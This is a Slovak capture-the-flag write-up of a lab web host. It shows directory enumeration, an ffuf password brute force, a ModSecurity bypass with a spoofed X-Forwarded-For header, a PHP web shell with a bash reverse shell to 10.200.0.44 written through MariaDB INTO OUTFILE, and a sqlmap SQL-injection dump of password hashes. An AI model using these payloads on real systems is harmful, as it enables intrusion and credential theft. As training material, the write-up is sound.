


# Zadanie

Hi, emergency troubleshooter,

we are preparing to put a new web hosting service into operation. Verify that it is secure and that no secret or classified information can be accessed. The testing instance is running on `wwwhost-new.powergrid.tcc`.

Stay grounded!

## Riešenie

Tak webhosting nie je na klasickom porte 80, nmap však našiel port 8000.

```
PORT     STATE SERVICE
8000/tcp open  http-alt
```

Na stránke `http://wwwhost-new.powergrid.tcc:8000/` je však nič. 

> # Not Found
> 
> The requested URL was not found on this server.
> 
> ---
> 
> Apache/2.4.65 (Debian) Server at wwwhost-new.powergrid.tcc Port 8000

Takže gobuster.

```
$ gobuster dir -u http://wwwhost-new.powergrid.tcc:8000/ -w common.txt -t 50 -x php,html,txt,bak,config
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://wwwhost-new.powergrid.tcc:8000/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Extensions:              html,txt,bak,config,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
Progress: 0 / 1 (0.00%)
2025/10/26 20:18:39 the server returns a status code that matches the provided options for non existing urls. http://wwwhost-new.powergrid.tcc:8000/cacef7f0-64a8-4619-ba38-77e84e90af17 => 403 (Length: 292). Please exclude the response length or the status code or set the wildcard option.. To continue please exclude the status code or the length
```

Tak s parametrom -xl 292 (exclude length)

```
$ gobuster dir -u http://wwwhost-new.powergrid.tcc:8000/ -w common.txt -t 5 -xl 292
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://wwwhost-new.powergrid.tcc:8000/
[+] Method:                  GET
[+] Threads:                 5
[+] Wordlist:                common.txt
[+] Negative Status codes:   404
[+] Exclude Length:          292
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
Progress: 4614 / 4614 (100.00%)
===============================================================
Finished
===============================================================
```

Nič.. tak skúsim zmeniť User-Agenta 

```
$ gobuster dir -u http://wwwhost-new.powergrid.tcc:8000/ -w common.txt -t 5 -xl 292 -a "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36"
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://wwwhost-new.powergrid.tcc:8000/
[+] Method:                  GET
[+] Threads:                 5
[+] Wordlist:                common.txt
[+] Negative Status codes:   404
[+] Exclude Length:          292
[+] User Agent:              Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/app                  (Status: 301) [Size: 343] [--> http://wwwhost-new.powergrid.tcc:8000/app/]
Progress: 4614 / 4614 (100.00%)
===============================================================
Finished
===============================================================
```

Tak je tam jeden endpoint `/app/`



Skúsim brutnúť používateľa admin.

```
ffuf -X $'POST' -u 'http://wwwhost-new.powergrid.tcc:8000/app/login.php' -H 'Host: wwwhost-new.powergrid.tcc:8000'  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' -H 'Accept-Language: en-US,en;q=0.9,sk-SK;q=0.8,sk;q=0.7,en-NL;q=0.6' -H 'Cache-Control: max-age=0' -H 'Connection: keep-alive' -H 'Content-Type: application/x-www-form-urlencoded' -b 'PHPSESSID=v94jd9vlakphib8edl239qu3as' -H 'Origin: http://wwwhost-new.powergrid.tcc:8000' -H 'Referer: http://wwwhost-new.powergrid.tcc:8000/app/login.php' -H 'Upgrade-Insecure-Requests: 1' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36' --data 'username=admin&password=FUZZ' -w rockyou.txt -fs 1618

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://wwwhost-new.powergrid.tcc:8000/app/login.php
 :: Wordlist         : FUZZ: /mnt/c/ctf/TheCatch2025/rockyou.txt
 :: Header           : Connection: keep-alive
 :: Header           : Origin: http://wwwhost-new.powergrid.tcc:8000
 :: Header           : Referer: http://wwwhost-new.powergrid.tcc:8000/app/login.php
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Cache-Control: max-age=0
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
 :: Header           : Cookie: PHPSESSID=v94jd9vlakphib8edl239qu3as
 :: Header           : Host: wwwhost-new.powergrid.tcc:8000
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
 :: Header           : Accept-Language: en-US,en;q=0.9,sk-SK;q=0.8,sk;q=0.7,en-NL;q=0.6
 :: Data             : username=admin&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 1618
________________________________________________

<div><embed src=\\      [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 17ms]
abc123!@#               [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 17ms]
<table style=\\         [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 16ms]
123!@#                  [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 17ms]
<div><embed src=        [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 17ms]
1234!@#$                [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 17ms]
qwe123!@#               [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 21ms]
<table style=\\\\       [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 19ms]
<style>                 [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 19ms]
<div><embed src=\\\\    [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 19ms]
12345!@#$%              [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 17ms]
<embed src=\\           [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 18ms]
123456789/*-+           [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 18ms]
*/*/*/                  [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 17ms]
Abc123!@#               [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 19ms]
123456789/*-            [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 16ms]
abc!@#                  [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 20ms]
a!@#$%^                 [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 20ms]
Princess25              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 22ms]
ABCabc123!@#            [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 17ms]
4294967296              [Status: 403, Size: 292, Words: 20, Lines: 10, Duration: 17ms]
```

Pri hesle `Princess25` vrátilo `Status: 200` a prihlásenie sa skutočne podarilo.

> ## Hlavní menu
> 
> - [Admin nástroje](http://wwwhost-new.powergrid.tcc:8000/app/admin_tools.php)
> - [DB manager](http://wwwhost-new.powergrid.tcc:8000/app/tools/adminer-5.3.0-mysql.php)
> - [Zobrazit Log přihlášení](http://wwwhost-new.powergrid.tcc:8000/app/logs.php)
> - [Zobrazit Log událostí](http://wwwhost-new.powergrid.tcc:8000/app/events.php)
> - [Odhlásit se](http://wwwhost-new.powergrid.tcc:8000/app/logout.php)

```
Zobrazit Log událostí
Date    Severity    Text
2025-06-11 13:30:41    Info    Security: Updated SSL certificates
2025-06-11 11:15:36    Warning    Security: Potential DDoS attack detected
2025-06-10 15:15:14    Error    Server: Server log storage almost full
2025-06-10 10:45:52    Warning    Code: Deprecated functions in codebase
2025-06-10 08:30:11    Info    New intern arrival and onboarding
2025-06-08 13:00:56    Info    Deployment: Hotfix applied to production
2025-06-08 11:00:27    Warning    Latency issues during data synchronization
2025-06-08 09:00:19    Info    Server: Server maintenance scheduled
2025-06-07 15:30:42    Error    Devel: Merge conflict in branch feature/sign-up
2025-06-07 13:45:45    Info    Automation: CI/CD pipeline improvements
2025-06-07 11:15:21    Warning    Server: Potential memory leak detected
2025-06-06 14:20:12    Error    Server: Modsecurity - IP 203.0.113.10 whitelisted
2025-06-06 14:00:32    Error    Server: Unexpected shutdown during peak hours
2025-06-06 10:30:58    Warning    Backend: Performance bottleneck in SQL query
2025-06-05 17:45:00    Info    Security: Regular vulnerability scan completed
2025-06-05 11:00:01    Warning    Staging: Slow response time on first load
2025-06-03 11:30:41    Warning    Server: High memory usage on dev server
2025-06-02 18:14:42    Info    Server: Modsecurity installed
2025-06-02 12:44:21    Critical    Security: SQL injection
2025-05-20 16:45:44    Info    Authentication: Central proxy finally turned off
2025-05-04 16:45:13    Error    Frontend: CSS not loading in Firefox
2025-05-03 17:15:09    Info    Frontend: Implemented new UI design
2025-05-01 14:45:00    Error    Database connection timeout
```

Podľa eventlogu je tu modsecurity a je kvôli sql injection, ale pre používateľa z ip 203.0.113.10 je off.

Log prihlásení hlási dvoch používateľov, test a admin, som admin, viac mi snáď netreba...

Okrem iného je tu adminer [http://wwwhost-new.powergrid.tcc:8000/app/tools/adminer-5.3.0-mysql.php](http://wwwhost-new.powergrid.tcc:8000/app/tools/adminer-5.3.0-mysql.php)

a nejaký admin_tools



Po mnohých pokusoch s rôznymi pokusmi to prelomiť a odpoveďou 403 sa mi podaril jeden súbor zobraziť

po zadaní `10 /var/log/alternatives.log` som dostal obsah

```
update-alternatives 2025-10-22 00:10:15: run with --install /etc/mysql/my.cnf my.cnf /etc/mysql/my.cnf.fallback 100
update-alternatives 2025-10-22 00:10:15: link group my.cnf updated to point to /etc/mysql/my.cnf.fallback
update-alternatives 2025-10-22 00:10:15: run with --install /etc/mysql/my.cnf my.cnf /etc/mysql/mariadb.cnf 200
update-alternatives 2025-10-22 00:10:15: link group my.cnf updated to point to /etc/mysql/mariadb.cnf
update-alternatives 2025-10-22 00:10:20: run with --install /bin/nc nc /bin/nc.traditional 10 --slave /bin/netcat netcat /bin/nc.traditional --slave /usr/share/man/man1/nc.1.gz nc.1.gz /usr/share/man/man1/nc.traditional.1.gz --slave /usr/share/man/man1/netcat.1.gz netcat.1.gz /usr/share/man/man1/nc.traditional.1.gz
update-alternatives 2025-10-22 00:10:20: link group nc updated to point to /bin/nc.traditional
update-alternatives 2025-10-22 00:10:20: run with --quiet --install /usr/bin/awk awk /usr/bin/gawk 10 --slave /usr/share/man/man1/awk.1.gz awk.1.gz /usr/share/man/man1/gawk.1.gz --slave /usr/bin/nawk nawk /usr/bin/gawk --slave /usr/share/man/man1/nawk.1.gz nawk.1.gz /usr/share/man/man1/gawk.1.gz
update-alternatives 2025-10-22 00:10:20: link group awk updated to point to /usr/bin/gawk
update-alternatives 2025-10-22 00:10:26: run with --install /usr/bin/php php /usr/bin/php8.2 82 --slave /usr/share/man/man1/php.1.gz php.1.gz /usr/share/man/man1/php8.2.1.gz
update-alternatives 2025-10-22 00:10:26: link group php updated to point to /usr/bin/php8.2
```

pri `10 /var/log/alternatives.log -c 10` iba `update-alt`. Ale nič iné ako zobraziť súbory neviem. Zatiaľ.. Ale čo ten modsecurity off pre konkrétnu IP. Skúsim cez postmana poslať request s pridaním hlavičky `X-Forwarded-For: `

Tu sa mi už podarilo zobraziť aj cez `50 /etc/passwd` celý súbor.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
mysql:x:100:101:MySQL Server,,,:/nonexistent:/bin/false
```

A je síce pekné, že viem čítať súbory, ale potrebujem získať vlajku. Ale počkať, veď si možno budem vedieť zobraziť priamo obsah php súboru, ktorý volám.

`1000 /var/www/html/app/admin_tools.php` mi dá skutočne obsah tohto súboru.

```php
<?php
require_once 'session.php';

if ($_SESSION['user'] !== 'admin') {
    http_response_code(403);
    echo $langs['access_denied'];
    exit;
}

$output = '';
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (isset($_POST['lines'])) {
        $lines = $_POST['lines'];
        $output = shell_exec("/usr/bin/tac " . LOGINS . "| head -n " . escapeshellcmd($lines));
    }
}
?>
<!DOCTYPE html>
<html lang="<?= $_SESSION['lang'] ?>">
<head>
    <meta charset="UTF-8">
    <title><?= $langs['admin_tools'] ?></title>
    <link rel="stylesheet" href="./css/bootstrap.min.css">
</head>
<body>
<div class="container mt-5">
    <h2><?= $langs['admin_tools'] ?></h2>

    <form method="post" class="mb-4">
        <div class="form-group">
            <label><?= $langs['file'] ?></label>
            <input type="text" name="file" class="form-control" disabled="disabled" value="<?= LOGINS ?>">
        </div>
        <div class="form-group">
            <label><?= $langs['lines'] ?></label>
            <input type="text" name="lines" value="10" class="form-control" min="1" max="1000">
        </div>
        <button type="submit" class="btn btn-warning"><?= $langs['show_head'] ?></button>
    </form>

    <pre class="bg-light p-3 border"><?= htmlspecialchars($output) ?></pre>

    <a href="index.php" class="btn btn-secondary"><?= $langs['back'] ?></a>
</div>
</body>
</html>
```

`shell_exec("/usr/bin/tac " . LOGINS . "| head -n " . escapeshellcmd(lines));`  tak cez `escapeshellcmd(lines)` asi neprejdem. Pozriem podľa `require` alebo `require_once` iné súbory.
`1000 /var/www/html/app/session.php`

```php
<?php
require_once 'config.php';

if (!isset($_SESSION['user'])) {
    header('Location: login.php');
    exit;
}
```

Hmmm, `1000 /var/www/html/app/config.php` mi dal heslá, zrejme použiteľné do adminera...

```php
<?php
session_start();

define('DB_HOST', 'localhost');
define('DB_NAME', 'myapp');
//define('DB_USER', 'developer');
define('DB_USER', 'svc_myapp');
define('DB_PASS', '423e5dc8f0db6b19c85d87d69af31844');

define('LOGINS', __DIR__ . '/log/logins.log');

$language_files = [
    'cs' => 'lang/cs.php',
    'en' => 'lang/en.php',
];

$lang = $_GET['lang'] ?? $_SESSION['lang'] ?? 'cs';
if (!array_key_exists($lang, $language_files)) {
    $lang = 'cs';
}
$_SESSION['lang'] = $lang;

require_once __DIR__ . '/' . $language_files[$lang];
```

No, ako svc_app síce viem prezerať databázu, ale tento profil mi k exploitu asi nijako nepomôže, nakoľko jediné privilégium mám Select Table a Select Column do db myapp a Insert Table a Insert Column vy db myapp a tabuľke login_logs. Nič extra..  Skúsim účet developer s rovnakým heslo.

A prihlásilo ma.. A tú mam síce menej možnosti, ale za to signifikantne použitelnejšie na exploit... Mám Granted na Server - FILE na `*.*`.

Skúsim si napísať jednoduchý php skript na spawnutie shellu na 10.200.0.44 na port 9010. Hmm, ale kde ho zapíšem. Pozriem do `MariaDB » Server » Variables`.

Bingo `secure_file_priv    /var/www/html/app/uploads/`.

Zadal som sql command 

`SELECT "<?php ini_set('display_errors', 1); error_reporting(E_ALL); exec(\"/bin/bash -c 'bash -i >& /dev/tcp/10.200.0.44/9010 0>&1'\");" INTO OUTFILE '/var/www/html/app/uploads/test1.php'`

a idem ho skúsiť spustiť. Penelope už je nedočkavá. Ale narážam na 403 - Forbidden. Ale nie je to 404, čo je dobré. Takže idem znovu cez postmana a s pridaním hlavičky X-Forwarded-For.

Ale dostávam

`**Fatal error**: Uncaught Error: Call to undefined function exec() in /var/www/html/app/uploads/test1.php:1 Stack trace: #0 {main} thrown in **/var/www/html/app/uploads/test1.php** on line **1**`, čo znamené len jedno, nie je povolený exec. Skúsim teda system().

OK, to isté.. Dúfam, že aspoň shell_exec pôjde. A ide!!! Penelope vydala zvuk a už mám shell.

```shell
www-data@3a00ff3adfc0:/var/www/html/app/uploads$ ls -la /
total 80
drwxr-xr-x   1 root root 4096 Oct 26 00:10 .
drwxr-xr-x   1 root root 4096 Oct 26 00:10 ..
-rwxr-xr-x   1 root root    0 Oct 26 00:10 .dockerenv
lrwxrwxrwx   1 root root    7 Oct 20 00:00 bin -> usr/bin
drwxr-xr-x   2 root root 4096 Aug 24 16:05 boot
drwxr-xr-x   5 root root  340 Oct 26 00:10 dev
-rwxrwxrwx   1 root root 2425 Oct 22 00:10 entrypoint.sh
drwxr-xr-x   1 root root 4096 Oct 26 00:10 etc
drwxr-xr-x   2 root root 4096 Aug 24 16:05 home
lrwxrwxrwx   1 root root    7 Oct 20 00:00 lib -> usr/lib
lrwxrwxrwx   1 root root    9 Oct 20 00:00 lib64 -> usr/lib64
drwxr-xr-x   2 root root 4096 Oct 20 00:00 media
drwxr-xr-x   2 root root 4096 Oct 20 00:00 mnt
drwxr-xr-x   1 root root 4096 Oct 22 00:10 opt
dr-xr-xr-x 602 root root    0 Oct 26 00:10 proc
drwx------   2 root root 4096 Oct 20 00:00 root
drwxr-xr-x   1 root root 4096 Oct 26 00:10 run
lrwxrwxrwx   1 root root    8 Oct 20 00:00 sbin -> usr/sbin
drwxr-xr-x   2  755 root 4096 Oct 26 00:10 secrets
drwxr-xr-x   2 root root 4096 Oct 20 00:00 srv
dr-xr-xr-x  13 root root    0 Oct 22 17:16 sys
drwxrwxrwt   1 root root 4096 Oct 26 21:03 tmp
drwxr-xr-x   1 root root 4096 Oct 20 00:00 usr
drwxr-xr-x   1 root root 4096 Oct 22 00:10 var
```

Je tu entrypoint, ktorý nie je prázdny je možné ho čítať

```bash
#!/bin/bash

BASE_DIR=/opt/server

if [ -z "${WEB_ADMIN_PASS}" ]; then
    echo "No WEB_ADMIN_PASS provided. Exiting ..."
    exit 1
fi

if [ -z "${WEB_TEST_PASS}" ]; then
    echo "No WEB_TEST_PASS provided. Exiting ..."
    exit 1
fi

if [ -z "${DB_PASS}" ]; then
    echo "No DB_PASS provided. Exiting ..."
    exit 1
fi

if [ -z "${WEBHOSTING_FLAG}" ]; then
    echo "No WEBHOSTING_FLAG provided. Exiting ..."
    exit 1
fi

sed -i "s/__DB_PASS__/${DB_PASS}/g" ${BASE_DIR}/misc/users.sql
sed -i "s/__DB_PASS__/${DB_PASS}/g" ${BASE_DIR}/app/config.php

WEB_ADMIN_PASS_HASH=$(/bin/echo -n "${WEB_ADMIN_PASS}" | sha1sum | cut -d ' ' -f 1)
WEB_TEST_PASS_HASH=$(/bin/echo -n "${WEB_TEST_PASS}" | sha1sum | cut -d ' ' -f 1)

sed -i "s/__WEB_ADMIN_PASS__/${WEB_ADMIN_PASS_HASH}/g" ${BASE_DIR}/misc/schema.sql
sed -i "s/__WEB_TEST_PASS__/${WEB_TEST_PASS_HASH}/g" ${BASE_DIR}/misc/schema.sql

# Start MariaDB for restoring data
/usr/bin/mysqld_safe &
sleep 5

mysql -u root < ${BASE_DIR}/misc/schema.sql
mysql -u root < ${BASE_DIR}/misc/users.sql

# Stop MariaDB after data restore
/usr/bin/mysqladmin shutdown

rm -r /etc/apache2/sites-enabled/*.conf
cp ${BASE_DIR}/misc/default-tcc.conf /etc/apache2/sites-enabled/

cat << __EOF__ > /etc/apache2/ports.conf
Listen 8000
__EOF__

cp -R ${BASE_DIR}/app /var/www/html
chown root:root /var/www -R
mkdir -p /var/www/html/app/log
chown www-data:www-data /var/www/html/app/log
mkdir -p /var/www/html/app/uploads
chown www-data:www-data /var/www/html/app/uploads
chmod 0777 /var/www/html/app/uploads

rm -f /var/www/html/index.html

cat << __EOF__ >/etc/php/8.2/apache2/conf.d/99-disablefunction.ini
disable_functions = exec,passthru,system,proc_open,popen,pcntl_exec
__EOF__

cat << __EOF__ > /etc/mysql/mariadb.conf.d/99-filepriv.cnf
[mysqld]
secure_file_priv='/var/www/html/app/uploads'
__EOF__

cp /etc/modsecurity/modsecurity.conf-recommended /etc/modsecurity/modsecurity.conf
sed -i -e 's/SecRuleEngine DetectionOnly/SecRuleEngine On/g' /etc/modsecurity/modsecurity.conf
sed -i -e 's/SecAuditEngine RelevantOnly/SecAuditEngine Off/g' /etc/modsecurity/modsecurity.conf

#cat << __EOF__ >> /etc/modsecurity/modsecurity.conf
#SecDebugLogLevel 1
#__EOF__

mkdir -p /secrets
chown 0755 /secrets
echo ${WEBHOSTING_FLAG} > /secrets/flag.txt

unset -v WEB_ADMIN_PASS WEB_TEST_PASS DB_PASS WEBHOSTING_FLAG

#rm /entrypoint.sh
```

Vlajka by mala byť v `/secrets/flag.txt`.

```shell
www-data@3a00ff3adfc0:/$ cat /secrets/flag.txt
FLAG{BCba-VkYk-Kw3N-HFPw}
```

Ta dá!

Poznámka na koniec. Keby mi vlastne napadlo pozrieť entrypoint.sh ešte vtedy, keď som zobrazoval tie súbory, tak som si mohol ušetriť robotu 😃. Ale aspoň bolo viac zábavy.


Poznámka pod čiaru. Skúsil som aj SQL injection, ktorá sa spomína v logoch udalostí a skutočne je tam, parameter username v login formulári je zraniteľný. sqlmap je frajer😃. 

```shell
┌──(kali㉿kali)-[~]
└─$ sqlmap -u 'http://10.99.25.100:8000/app/login.php' \
  --data 'username=bla&password=blabla' \
  --user-agent='Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36' \
  --headers='X-Forwarded-For: 203.0.113.10' \
  -p username \
  -D myapp \
  -T users \
  --dump
        ___
       __H__                                                                                                                                                                                                       
 ___ ___[.]_____ ___ ___  {1.9.3#stable}                                                                                                                                                                           
|_ -| . [(]     | .'| . |                                                                                                                                                                                          
|___|_  ["]_|_|_|__,|  _|                                                                                                                                                                                          
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                       

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 22:26:30 /2025-10-26/

[22:26:30] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=6idsfq1mm85...dtq60lh3gs'). Do you want to use those [Y/n] y
[22:26:34] [INFO] checking if the target is protected by some kind of WAF/IPS
[22:26:34] [INFO] testing if the target URL content is stable
[22:26:34] [INFO] target URL content is stable
[22:26:34] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[22:26:34] [INFO] testing for SQL injection on POST parameter 'username'
[22:26:34] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:26:34] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[22:26:34] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[22:26:34] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[22:26:35] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[22:26:35] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[22:26:35] [INFO] testing 'Generic inline queries'
[22:26:35] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[22:26:35] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[22:26:35] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[22:26:35] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[22:26:45] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 

[22:27:15] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[22:27:15] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[22:27:15] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[22:27:15] [INFO] target URL appears to have 3 columns in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] y
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[22:27:30] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
[22:27:30] [INFO] target URL appears to be UNION injectable with 3 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[22:27:34] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 149 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=bla' AND (SELECT 9747 FROM (SELECT(SLEEP(5)))FPmx) AND 'nNFy'='nNFy&password=blabla
---
[22:27:57] [INFO] the back-end DBMS is MySQL
[22:27:57] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] 
web server operating system: Linux Debian
web application technology: Apache 2.4.65, PHP
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[22:28:09] [INFO] fetching columns for table 'users' in database 'myapp'
[22:28:09] [INFO] retrieved: 
[22:28:19] [INFO] adjusting time delay to 1 second due to good response times
3
[22:28:20] [INFO] retrieved: id
[22:28:27] [INFO] retrieved: username
[22:28:50] [INFO] retrieved: password_hash
[22:29:39] [INFO] fetching entries for table 'users' in database 'myapp'
[22:29:39] [INFO] fetching number of entries for table 'users' in database 'myapp'
[22:29:39] [INFO] retrieved: 2
[22:29:41] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)                                                                           
1
[22:29:44] [INFO] retrieved: d2982588f016f8dfd57a3fc4ac071cc013a8666a
[22:32:25] [INFO] retrieved: admin
[22:32:40] [INFO] retrieved: 2
[22:32:43] [INFO] retrieved: 51abb9636078defbf888d8457a7c76f85c8f114c
[22:35:01] [INFO] retrieved: test
[22:35:16] [INFO] recognized possible password hashes in column 'password_hash'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[22:35:29] [INFO] writing hashes to a temporary file '/tmp/sqlmapastxdnbo7991/sqlmaphashes-ufwqcam4.txt' 
do you want to crack them via a dictionary-based attack? [Y/n/q] y
[22:35:33] [INFO] using hash method 'sha1_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 2
what's the custom dictionary's location?
> /home/kali/rockyou.txt
[22:35:42] [INFO] using custom dictionary
do you want to use common password suffixes? (slow!) [y/N] 

[22:35:45] [INFO] starting dictionary-based cracking (sha1_generic_passwd)
[22:35:45] [INFO] starting 8 processes 
